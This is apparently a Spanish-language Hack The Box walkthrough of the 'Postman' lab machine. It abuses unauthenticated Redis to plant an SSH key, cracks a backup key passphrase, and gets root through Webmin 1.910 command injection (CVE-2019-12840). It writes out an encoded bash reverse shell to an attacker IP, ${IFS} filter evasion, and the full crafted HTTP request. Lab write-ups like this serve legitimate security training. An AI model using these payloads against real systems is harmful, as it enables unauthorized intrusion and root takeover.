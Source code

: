 # Postman ![Avatar](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b_thumb.png)
## Initial Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
## Enum
### Webmin
Este podría
### Redis
El servicio redis nos permite interaccionar con el sin ningun tipo de autenticación, abusaremos de esto para subir nuestra propia clave y obtener sesion en el servidor como redis , para ello ejecutaremos lo siguiente
```
:~/Current/HTB$ (echo -e "\n\n"; cat key_rsa.pub ; echo -e "\n\n") > key.txt
:~/Current/HTB$ cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
OK
:~/Current/HTB$ redis-cli -h 10.10.10.160
10.10.10.160:6379> GET ssh_key
"\n\n\nssh-rsa AAAAB3NzaC.............\n\n\n\n"
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Tras esto podemos logearnos en el sistema sin ningún problema como redis

## Privesc 
### Matt
Encontramos el siguiente archivo de backup
```
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```
Copiamos la clave y la traemos a nuestra máquina para poder crackear su clave, usamos ssh2john y crackeamos el hash, con ello veremos que la clave es la siguiente
```
computer2008     (second_key)
```
Con esta clave nos podremos logear como Matt, pero no desde el ssh directamente si no mediante su
### Root

Tras un rato buscand omaneras de hacer privesc recorde que habia un servicio webmin que no habiamos utilizado para nada, probamos las credenciales de Matt en el servicio y accedimos sin problema, busquemos alguna forma de escalar privilegios desde aquí, ya que el webmin ha sido invocado como root
```
Matt@Postman:/etc/webmin$ ps aux | grep webmin
root        695  0.0  3.2  95320 29536 ?        Ss   Sep06   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
```
Desde el escaneo del principio sabemos la version de webmin, 1.910 esta version es vulnerable a el CVE 2019-12840, abusemos del mismo para obtener RCE como root, para ello podriamos usar alguno de los exploits disponibles para el CVE aunque en este caso vamos a hacerlo a mano para evitar los problemas con el certificado ssl de la página , para ello hacemos lo siguiente
1* Abrimos BurpSuite y mediante el proxy interceptamos una request a /package-updates/update.cgi
2* Para obtener la request que necesitamos vamos a System -> Software Packcage Mangamente -> Update -> Update selecteds
3* Añadir el siguiente payload al data en la request  
```
u=acl%2Fapt&u=$(COMANDO A EJECUTAR)
```
Con esto podemos conseguir obtener una reverse shell, si pasamos los filtros ya que "/" , "," y " ", hacen que el sistema trunque el input, para solucionar este probelma recurriremos a dos truquitos, la variable IFS y encodear el payload en base64, procedamos

* 1. Escribimos la reverse shell en plano
```
bash -i >& /dev/tcp/10.14.10.23/4444 0>&1
```
* 2. La encodeamos en base 64, en mi caso quedaba un + en el payload lo cual da problemas con el URL encoding asi que la doble encodee en base64:
```
echo "bash -i >& /dev/tcp/10.14.10.23/4444 0>&1" | base64 | base64
```
* 3. Construimos la secuencia de comandos para decodificar el payload y ejecutarlo en la máquina remota
```
echo WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK | base64 -d | base64 -d | bash
```
* 4. Eliminamos los espacios no necesarios para la ejecución del comando
```
echo WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK|base64 -d|base64 -d|bash
```
* 5. Añadimos IFS donde aún tengamos espacios en blanco
```
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK|base64${IFS}-d|base64${IFS}-d|bash```
```
Con esto ya tendriamos nuestra request completa
```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Progressive-URL: https://10.10.10.160:10000/package-updates/update.cgi
X-Requested-From: package-updates
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Length: 134
Origin: https://10.10.10.160:10000
Connection: close
Referer: https://10.10.10.160:10000/package-updates/update.cgi?xnavigation=1
Cookie: redirect=1; testing=1; sid=5f376f95923e8a275a21fe3ef86fc671

u=acl%2Fapt&u=$(echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR4TUM0eU15ODBORFEwSURBK0pqRUsK|base64${IFS}-d|base64${IFS}-d|bash)
```
La ponemos en nuestro repeater , abrimos el listener en local y lanzamos la request
